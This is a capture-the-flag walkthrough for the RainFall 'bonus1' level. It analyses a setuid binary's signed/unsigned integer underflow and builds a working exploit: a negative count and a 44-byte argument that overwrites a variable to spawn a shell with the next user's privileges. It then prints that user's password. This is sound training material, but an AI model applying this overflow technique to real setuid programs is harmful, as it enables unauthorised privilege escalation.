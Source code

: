 # Bonus1 Walkthrough

## Who am I?

```bash
bonus1@RainFall:~$ id
uid=2011(bonus1) gid=2011(bonus1) groups=2011(bonus1),100(users)
```

## Where am I?

```bash
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
# note: the `s` bits indicate setuid/setgid, the binary runs with the owner's privileges (here `bonus2`) when executed by another user (here `bonus1`).
```

---

## Discovery, behavior test

```bash
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)

bonus1@RainFall:~$ ./bonus1 5
Segmentation fault (core dumped)

bonus1@RainFall:~$ ./bonus1 5 hello
bonus1@RainFall:~$
```

**Observation**: The program requires two arguments and doesn't produce visible output in normal execution.

---

## Function analysis

```c
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    char buffer[40];
    int count;
    
    count = atoi(argv[1]);
    
    if (count < 10) {
        memcpy(buffer, argv[2], count * 4);
        
        if (count == 0x574f4c46) {
            execl("/bin/sh", "sh", NULL);
        }
        
        return 0;
    }
    else {
        return 1;
    }
}
```

### Vulnerability Analysis

* `count = atoi(argv[1])`:
  * Converts the first argument to a signed integer.
  * **Critical**: atoi returns a signed int, which can be negative.

* `if (count < 10)`:
  * Checks if count is less than 10.
  * **Implication**: Negative values will pass this check.

* `memcpy(buffer, argv[2], count * 4)`:
  * Copies `count * 4` bytes from argv[2] into a 40-byte buffer.
  * **Issue**: The third parameter is `size_t` (unsigned), so negative values will be interpreted as very large unsigned integers.
  * **Vulnerability**: Integer underflow leading to buffer overflow.

* `if (count == 0x574f4c46)`:
  * Magic number check (ASCII "FLOW" in little-endian).
  * **Goal**: We need to overwrite `count` with this value to spawn a shell.

### Stack Layout

```
Low addresses
    |
    v
[buffer - 40 bytes] [count - 4 bytes] [saved ebp] [return address]
    ^
    |
High addresses
```

**Conclusion**: We need to write 44 bytes total (40 bytes padding + 4 bytes to overwrite `count`) while bypassing the `count < 10` check.

---

## Build the exploit

### 1) Understanding Integer Underflow

When we multiply a negative signed integer by 4, the result can overflow the 32-bit boundary. The key is that `memcpy` interprets this as an unsigned `size_t`.

We need:
* `count < 10` (signed comparison) → negative values work
* `count * 4 = 44` (as unsigned after overflow) → to overwrite exactly up to and including `count`

### 2) Finding the Magic Number

We can use a simple C program to find a negative value that, when multiplied by 4, gives us 44 bytes:

```c
#include <stdio.h>

int main()
{
    long i = 0;
    for (;;)
    {
        if ((int)i * 4 == 44)
        {
            printf("i=%ld i*4=%d\n", i, (int)i * 4);
            return 0;
        }
        i--;
    }
}
```

Running this program:
```bash
$ gcc underflowfinder.c && ./a.out
i=-1073741813 i*4=44
```

**Result**: `count = -1073741813`

### 3) Verification of the Math

```
-1073741813 (decimal) = 0xC000000B (hex, as 32-bit signed int)
-1073741813 * 4 = -4294967252 (as signed 64-bit)

But in 32-bit arithmetic:
0xC000000B * 4 = 0x00000002C (keeping only lower 32 bits)
                = 44 (decimal)
```

### 4) Building the Payload

We need:
* **First argument**: `-1073741813` (to pass `count < 10` and get `memcpy` size of 44)
* **Second argument**: 
  * 40 bytes of padding (to fill the buffer)
  * 4 bytes containing `0x574f4c46` (little-endian: `\x46\x4c\x4f\x57`)

### 5) Final Exploit

```bash
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C source)
* `underflowfinder.c`: helper program to find the correct negative value

---

## Conclusion

This binary is exploitable through an integer underflow vulnerability. By providing a negative number that passes the `count < 10` check, we can trigger a buffer overflow in `memcpy` because the size parameter is cast to unsigned. The overflow allows us to overwrite the `count` variable with the magic value `0x574f4c46`, which spawns a shell with bonus2 privileges.
